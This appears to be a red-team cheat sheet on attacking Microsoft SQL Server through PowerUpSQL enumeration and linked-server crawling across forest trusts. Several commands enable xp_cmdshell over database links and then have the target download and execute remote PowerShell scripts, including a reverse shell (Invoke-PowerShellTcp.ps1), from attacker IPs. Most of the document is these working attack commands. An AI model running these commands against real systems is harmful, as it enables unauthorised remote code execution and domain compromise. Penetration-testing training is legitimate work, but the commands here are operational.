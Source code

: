 # 1 MSSQL Abuse

## Forest Trusts \[ MSSQL Abuse ; Part 1 ]

* We can use tools to speed the process up

1. https://github.com/NetSPI/PowerUpSQL/blob/master/PowerUpSQL.psd1

* For importing use the following command

```powershell
Import-Module .\PowerUpSQL.psd1
```

***

### Methodology/Steps

> 1. Check the SPN's
> 2. Check which SPN's you have access to
> 3. Check the Privileges you have of the above filtered SPN's
> 4. Keep note of the **Instance-Name**, **ServicePrincipalName** and the **DomainAccount-Name**
> 5. If you find any service with _higher privileges_ continue below to abuse it

***

### PowerUpSQL \[ Basic Enumeration ]

#### 1. Enumerate SPN

```powershell
Get-SQLInstanceDomain
```

#### 2. Check Access

```powershell
Get-SQLConnectionTestThreaded
Get-SQLInstanceDomain | Get-SQLConnectionTestThreaded -Verbose
```

#### 3. Check Privileges / Gather Infromation

```powershell
Get-SQLInstanceDomain | Get-SQLServerInfo -Verbose
```

***

## MSSQL Database Links \[ MSSQL Abuse ; Part 2 ]

* A database link allows a SQL Server to access external data sources like other SQL Servers and OLE DB data sources.
* In case of database links between SQL servers, that is, linked SQL servers it is possible to execute stored procedures.
* Database links work even across forest trusts.

### Execute commands on target server

* On the target server, either xp\_cmdshell should be already enabled; or
* If **rpcout** is enabled (disabled by default), xp\_cmdshell can be enabled using:

```mssql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

* If **rpcout** is disabled but we are **sa**, it can be enabled with

```mssql
EXEC sp_serveroption 'LinkedServer', 'rpc out', 'true';
```

***

### Methodology/Steps

> 1. Check the SQL Server link
> 2. Keep note if you have link to any other database in **DatabaseLinkName**
> 3. If SysAdmin:0 means that we will not be allowed to enable **xp\_cmdshell**
> 4. Keep on enumerating and check all the linked databases you have access to
> 5. Now we can try to execute commands through out all the linked databases found

***

### PowerUpSQL \[ Abusing the privileges ]

#### 1. Enumerate SQL Server links

```powershell
Get-SQLServerLink -Instance <instanceName> -Verbose
select * from master..sysservers
```

#### 2. Enumerate DB links

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Verbose
select * from openquery("<instanceName>",'select * from openquery("<linkedInstance>",''select * from master..sysservers'')')
```

#### 3. Execute commands on target server

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mysql -Query "exec master..xp_cmdshell 'whoami'" | ft
```

#### Download file on target server

```powershell
Get-SQLServerLinkCrawl -Instance <instanceName> -Query 'exec master..xp_cmdshell "powershell -c iex (new-object net.webclient).downloadstring(''http://IP:8080/Invoke-HelloWorld.ps1'',''C:\Windows\Temp\Invoke-HelloWorld.ps1'')"'

Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.21/Invoke-PowerShellTcp.ps1'')"'
```

***

## Extra Commands

### Basic SQL Server queries for DB enumeration

Also works with **Get-SQLServerLinkCrawl**

```powershell
#View all db in an instance
Get-SQLQuery -Instance <instanceName> -Query "SELECT name FROM sys.databases"

#View all tables
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.TABLES" 

#View all cols in all tables in a db
Get-SQLQuery -Instance <instanceName> -Query "SELECT * FROM dbName.INFORMATION_SCHEMA.columns"

#View data in table
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName"

# manually enumerate linked servers
select * from master..sysservers

# Openquery function can be used to run queries on a linked database
select * from openquery("192.168.23.25",'select * from master..sysservers')

# Openquery queries can be chained to access links within links (nested links)
select * from openquery("192.168.23.25 ",'select * from openquery("db-sqlsrv",''select @@version as version'')')

# From the initial SQL server, OS commands can be executed using nested link queries
select * from openquery("192.168.23.25",'select * from openquery("db-sqlsrv",''select @@version as version;exec master..xp_cmdshell "powershell iex (New-Object Net.WebClient).DownloadString(''''http://192.168.100.X/I nvoke-PowerShellTcp.ps1'''')"'')')

# How to enable rpcout in a linked DB
# first get a rev shell on the parent DB
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc', @optvalue='TRUE'"
Invoke-SqlCmd -Query "exec sp_serveroption @server='db-sqlsrv', @optname='rpc out', @optvalue='TRUE'"
Invoke-SqlCmd -Query "EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT ""db-sqlsrv"""

# Query command to a linked DB
Get-SQLQuery -Instance <instanceName> -Query "USE dbName;SELECT * FROM tableName" -QueryTarget db-sqlsrv
```
